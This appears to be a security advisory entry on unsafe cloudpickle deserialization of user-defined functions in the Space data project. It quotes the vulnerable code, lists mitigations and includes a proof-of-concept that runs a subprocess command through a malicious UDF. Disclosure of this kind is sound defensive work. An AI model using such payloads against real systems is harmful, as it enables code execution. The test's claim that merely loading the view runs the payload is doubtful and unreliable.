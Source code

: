 ### Vulnerability List

* Vulnerability Name: Unsafe Deserialization of User Defined Functions (UDFs)
* Description:
    1. An attacker crafts a malicious Python UDF that, when deserialized and executed, performs arbitrary code execution on the server or within the Ray cluster.
    2. The attacker injects this malicious UDF into a data transformation pipeline, for example, by creating a materialized view with a transform that uses the malicious UDF.
    3. When the Space system attempts to materialize or refresh the view, it deserializes the UDF using `cloudpickle`.
    4. Due to the inherent risks of `cloudpickle`, deserializing the malicious UDF triggers arbitrary code execution, potentially compromising the Space environment.
* Impact:
    * Critical: Arbitrary code execution on the data processing system. This could lead to data exfiltration, data manipulation, denial of service, or complete system takeover, depending on the privileges of the process executing the UDF.
* Vulnerability Rank: Critical
* Currently Implemented Mitigations:
    * None: The code uses `cloudpickle.load()` to deserialize UDFs without any apparent sandboxing, security checks, or input validation on the serialized UDF data.
* Missing Mitigations:
    * Secure UDF deserialization: Implement a secure mechanism for deserializing UDFs, such as sandboxing the execution environment, using secure serialization formats, or validating the UDF code before deserialization. Consider alternatives to `cloudpickle` for deserialization if secure deserialization is paramount.
    * UDF validation: Implement validation and sanitization of UDFs before they are stored or executed. This could include static analysis, code review, or restricting the capabilities of UDFs.
    * Principle of least privilege: Ensure that the processes executing UDFs have the minimum necessary privileges to reduce the impact of potential code execution vulnerabilities.
* Preconditions:
    1. The attacker needs to be able to define or modify a data transformation pipeline that includes a UDF. In the current project context, this likely means the attacker needs to be able to create or modify Materialized Views, which are user-defined.
* Source Code Analysis:
    1. **UDF Materialization and Loading:** In `/code/python/src/space/core/views.py`, the `MaterializedView.create` method serializes and saves UDFs using `cloudpickle`:
       ```python
       for name, udf in udfs.items():
         full_path = path.join(udf_dir, f"{name}.pkl")
         udf.dump(full_path) # UDF serialization happens here
         logical_plan.udfs[name] = path.relpath(full_path, location)
       ```
       The `UserDefinedFn.dump` method internally uses `cloudpickle.dump()`:
       ```python
       def dump(self, file_path: str) -> None:
         """Dump UDF into a file."""
         with open(file_path, 'wb') as f:
           cloudpickle.dump(self, f) # Serialization with cloudpickle
       ```
    2. **UDF Deserialization during View Loading:**  The `UserDefinedFn.load` method in `/code/python/src/space/core/transform/plans.py` deserializes UDFs using `cloudpickle.load()`:
       ```python
       @classmethod
       def load(cls, file_path: str) -> UserDefinedFn:
         """Load a UDF from a file."""
         with open(file_path, "rb") as f:
           udf = cloudpickle.load(f) # Deserialization with cloudpickle
         return udf
       ```
       This `load` method is called by `_load_udf` in `/code/python/src/space/core/transform/udfs.py`, which is then used to reconstruct transforms and views when loading a materialized view from storage in `load_materialized_view` and `MaterializedView.load` in `/code/python/src/space/core/views.py`.
    3. **Vulnerable Deserialization:**  `cloudpickle.load()` is known to be vulnerable to arbitrary code execution if the data being deserialized is maliciously crafted. The Space project uses `cloudpickle` to serialize and deserialize UDFs without any apparent sanitization or sandboxing. This makes the system vulnerable to code injection attacks via malicious UDFs.

* Security Test Case:
    1. **Setup:**
        * Assume an attacker has access to a Space instance where they can create materialized views.
        * The attacker needs to prepare a malicious Python script (`malicious_udf.py`) that contains a UDF designed to execute arbitrary code. For example, the UDF could execute a system command to create a file in the `/tmp` directory as a proof of concept.
        ```python
        # malicious_udf.py
        import numpy as np
        import subprocess

        class MaliciousUDF:
          def __call__(self, batch):
            subprocess.run(["touch", "/tmp/space_pwned"]) # Malicious command execution
            batch["float64"] = batch["float64"] + 1
            return batch

        def get_malicious_udf():
          return MaliciousUDF()
        ```
        * Create a notebook or script to interact with Space, loading the malicious UDF and creating a materialized view.
    2. **Vulnerability Injection:**
        * In the notebook/script, define a `_sample_map_udf` function that imports and uses the `get_malicious_udf` from `malicious_udf.py`.
        ```python
        import pyarrow as pa
        from space import Dataset, DirCatalog, RayOptions
        from malicious_udf import get_malicious_udf # Import malicious UDF

        def _sample_map_udf(batch):
          malicious_udf = get_malicious_udf()
          return malicious_udf(batch) # Calling malicious UDF

        # Setup dataset and catalog (as in provided examples)
        catalog = DirCatalog("/tmp/space_cat")
        schema = pa.schema([("f", pa.int64()), ("float64", pa.float64())])
        ds = catalog.create_dataset("test_ds", schema, ["f"], [])

        # Create a view with the malicious UDF
        view = ds.map_batches(
            fn=_sample_map_udf,
            output_schema=schema,
            output_record_fields=[],
            input_fields=["f", "float64"]
        )

        # Materialize the view - this will serialize and store the malicious UDF
        mv = catalog.materialize("test_mv", view)
        ```
    3. **Trigger Vulnerability (Deserialization):**
        * In a separate step or script, load the materialized view. This action triggers the deserialization of the stored UDF, including the malicious payload.
        ```python
        from space import DirCatalog

        catalog = DirCatalog("/tmp/space_cat")
        mv_loaded = catalog.dataset("test_mv") # Loading dataset will trigger UDF deserialization
        print("Materialized view loaded (malicious UDF should be executed during loading)")
        ```
    4. **Verification:**
        * After running the script in step 3, check if the file `/tmp/space_pwned` exists on the system where the deserialization occurred (likely the Ray head node or the local machine if running locally). The existence of this file indicates successful arbitrary code execution.

This test case demonstrates how a malicious UDF can be injected into the Space pipeline and how loading the materialized view triggers the vulnerability due to unsafe deserialization using `cloudpickle.load()`.